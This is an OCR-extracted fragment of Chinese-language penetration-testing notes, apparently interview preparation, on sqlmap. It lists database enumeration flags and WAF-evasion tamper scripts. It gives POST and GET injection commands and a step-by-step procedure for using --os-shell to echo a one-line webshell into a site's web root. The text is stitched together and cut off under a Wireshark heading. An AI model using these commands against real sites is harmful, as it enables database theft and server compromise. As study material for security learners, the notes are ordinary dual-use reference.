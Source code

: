 > –tables 枚举 DBMS 数据库中的表 
>
> –columns 枚举 DBMS 数据库表列 
>
> -D DB 要进行枚举的数据库名 
>
> -T TBL 要进行枚举的数据库表 
>
> -C COL 要进行枚举的数据库列 
>
> -U USER 用来进行枚举的数据库用户 
>
> ### 常用的tamper： 
>
> base64encode.py #转为b64编码 
>
> charencode.py url编码 
>
> chardoubleencode.py 双URL编码 
>
> unmagicquotes.py 宽字节 
>
> randomcomments.py 用/**/分割SQL关键字 
>
> space2plus.py space2comment.py space2xxxx.py 替换空格为xx 
>
> ### Post注入： 
>
> sqlmap -r "数据包地址" -p "参数" -dbms 数据类型 
>
> ### Get注入 
>
> sqlmap -u "注入点地址" --dbms 参数 
>
> sqlmap进行交互式写shell 
>
> 1-前提条件：最高权限、知道web网站绝对路径、能获取到cookie 
>
> 2-sqlmap.py -u "注入点地址" --cookie="cookie值" --os-shell -echo “一句话木马”>网站的绝对路径 
>
> 3-输入web网站的绝对路径 
>
> 4-传木马





# 面试面试面试面试面试：

## wireshark筛选传参方式怎么写：

